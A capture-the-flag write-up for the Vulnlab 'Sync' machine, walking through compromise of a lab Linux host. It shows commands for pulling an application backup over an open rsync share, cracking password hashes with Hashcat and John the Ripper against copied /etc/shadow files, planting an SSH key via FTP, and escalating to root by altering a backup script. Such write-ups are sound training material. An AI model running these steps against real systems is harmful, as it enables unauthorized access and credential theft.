

+++
title = 'Vulnlab :: Sync Writeup'
date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++


## Enumeration

### Nmap Scan

I started with a standard scan using Nmap:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


## Rsync

I noticed that the machine exposes an rsync service. I enumerated available modules:

```sh
rsync -av --list-only rsync://10.10.95.205/
```


I found a module named `httpd`:

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```

The rsync service contains an application backup. I downloaded it with:

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```


## Application Analysis

### PHP


Reviewing the PHP code, I found a secret and the logic used to generate password hashes.

### Database


The database contains password hashes for two users.

### Hashcat


Using Hashcat, I managed to crack the password hash for the user `triss`.




## FTP

### FTP Access

SSH login is not possible with the cracked password, as key-based authentication is enforced. However, I was able to log in to the FTP server.


### SSH Key Upload

The FTP server's root directory is the home directory of the user `triss`, which allows me to upload my public SSH key.


```sh
cp ./.ssh/id_rsa.pub /workspace/
cat id_rsa.pub > authorized_keys
```

Now I can log in via SSH using my private key:

```sh
ssh triss@10.10.95.205 -i id_rsa
```


## Privilege Escalation

### User Flag

There is no user flag in `triss`'s home directory. However, due to a reference to "The Witcher" by Andrzej Sapkowski in the challenge, I guessed that the password for the user `jennifer` is the same as for `triss`. This allowed me to obtain the user flag.

### /backup Directory

After running LinPEAS, I discovered the `/backup` directory.


### John the Ripper

I found backup copies of `/etc/passwd` and `/etc/shadow`. I used John the Ripper to crack the password for the user `sa`:

```sh
unshadow passwd shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```

### backup.sh

I discovered a backup script owned by the user `sa`


```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After modifying the script and executing it, I was able to escalate privileges and gain root access.

```sh
/bin/bash -p
```
